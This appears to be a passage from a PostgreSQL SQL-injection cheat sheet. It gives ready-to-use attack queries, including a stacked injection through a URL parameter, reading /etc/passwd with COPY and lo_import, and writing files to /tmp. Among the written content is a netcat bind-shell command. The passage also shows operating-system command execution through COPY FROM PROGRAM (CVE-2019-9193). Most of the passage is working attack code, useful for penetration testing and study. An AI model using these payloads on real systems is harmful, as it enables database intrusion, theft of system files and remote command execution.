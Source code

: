 Use a semi-colon ";" to add another query

```sql
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

## PostgreSQL File Read

```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

NOTE: Earlier versions of Postgres did not accept absolute paths in `pg_read_file` or `pg_ls_dir`. Newer versions (as of [this](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) commit) will allow reading any file/filepath for super users or users in the `default_role_read_server_files` group.

```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

```sql
SELECT lo_import('/etc/passwd'); -- will create a large object from the file and return the OID
SELECT lo_get(16420); -- use the OID returned from the above
SELECT * from pg_largeobject; -- or just get all the large objects and their data
```

## PostgreSQL File Write

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

```sql
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
```

## PostgreSQL Command execution

### CVE-2019–9193

Can be used from [Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598) if you have a direct access to the database, otherwise you need to execute manually the following SQL queries. 

```SQL
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```
